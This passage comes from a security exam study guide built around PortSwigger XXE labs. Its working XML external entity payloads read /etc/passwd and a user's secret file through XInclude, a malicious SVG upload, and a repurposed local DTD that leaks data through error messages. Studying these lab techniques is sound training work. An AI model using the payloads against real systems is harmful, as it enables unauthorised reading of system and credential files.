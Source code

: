     <foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>
    ```
    
- [ ]  [PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
    
    ### XXE via SVG Image upload
    
    > Identify image upload on the blog post function that accept svg images, and observe that the avatars already on blog source code is svg extensions.
    > 
    
    > The content of the image.svg file uploaded:
    > 
    
    ```xml
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```
    
    !https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/xxe-svg-upload.png
    
- [ ]  **[Exploiting XXE to retrieve data by repurposing a local DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)**
    
    > Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`
    > 
    
    ```xml
    <!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```
    
    ### XML External Entity (XXE) Injection Payloads
    
    ### XXE: Basic XML Example
    
    ```
    <!--?xml version="1.0" ?-->
    <userInfo>
     <firstName>John</firstName>
     <lastName>Doe</lastName>
    </userInfo>
    